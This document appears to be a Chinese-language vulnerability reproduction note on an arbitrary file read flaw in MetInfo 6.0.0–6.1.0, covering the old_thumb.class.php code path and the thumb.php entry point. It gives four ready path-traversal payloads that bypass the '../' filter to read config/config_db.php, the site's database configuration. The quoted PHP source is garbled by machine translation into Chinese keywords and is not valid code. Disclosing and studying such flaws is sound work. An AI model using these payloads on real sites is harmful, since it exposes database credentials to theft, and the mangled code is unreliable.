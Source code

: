 ```yaml
---
title: "Metinfo任意文件读取"
id: zhfly3017
---
```


# MetInfo 任意文件读取

## 一、漏洞简介

MetInfo是一套使用PHP和Mysql开发的内容管理系统。 MetInfo 6.0.0~6.1.0版本中的 old_thumb.class.php文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

## 二、漏洞影响

MetInfo 6.0.0
MetInfo 6.1.0

## 三、复现过程

### 漏洞分析

进攻分析
看下\MetInfo6\app\system\include\module\old_thumb.class.php

```
<？php 
＃MetInfo企业内容管理系统
＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

define（‘IN_MET’）或 退出（‘No权限’）;

load :: sys_class（‘web’）;

class  old_thumb  扩展了 网络 {

```
 公共 功能 doshow （） { 全局 $ _M;

    $ DIR = str_replace函数（'../' ，''，$ _GET [ '目录' ]）;

    if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
        header（“ Content-type：image / jpeg”）; 
        ob_start（）; 
        readfile（$ dir）; 
        ob_flush（）; 
        flush（）; 死 ;         }

    if（$ _M [ 'form' ] [ 'pageset' ]）{ 
      $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

    } else { 
      $ path = $ dir; 
    } 
    $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;

        readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
        ob_flush（）; 
        flush（）; 
    }

} 
```

} `＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。

＃版权所有（C）MetInfo Co.，Ltd.（[http://www.metinfo.cn](http://www.metinfo.cn)）。版权所有。

？>` 
```

从代码中看用看到，$dir直接由$_GET['dir']传递进来，并将../置空。目标是进入到第一个，如果里面的readfile($dir);，读取文件。看看如果语句的条件，的英文外面一个strstr函数，判断$dir中http字符串的首次出现位置，实质上，要进入到这个if语句里面，$dir中必须包含http字符串。里面的将$dir中包含$_M['url']['site']的部分放置空，这里可以不用管。

![image](../img/2879451a2cb8d0b4eba5094853878bba.png)

从上面的分析可以构造出有效负载，只要$dir里包含http字符串就可以进入到readfile函数从而重新读取任意函数，然后可以使用..././来进行目录替换，因为../会被置空，所以最终payload如下

```
?dir=..././http/..././config/config_db.php 
```

```
?dir=.....///http/.....///config/config_db.php 
```

```
?dir=http/.....///.....///config/config_db.php 
```

```
?dir=http\..\..\config\config_db.php 
```

### 漏洞复现

要先找到调用old_thumb.class.php的文件，看到include/thumb.php，可以从这个文件里面进入到old_thumb.class.php

```
<?php
# MetInfo Enterprise Content Management System
# Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
define('M_NAME', 'include');
define('M_MODULE', 'include');
define('M_CLASS', 'old_thumb');
define('M_ACTION', 'doshow');
require_once '../app/system/entrance.php';
# This program is an open source system, commercial use, please consciously to purchase commercial license.
# Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
?> 
```

所以我们通过thumb.php将构造好的$dir传入即可。

![image](../img/c9fdcf84533ff1258e58d3fc3eeaa2ad.png)

可以看到成功的读取到了config/config_db.php的内容。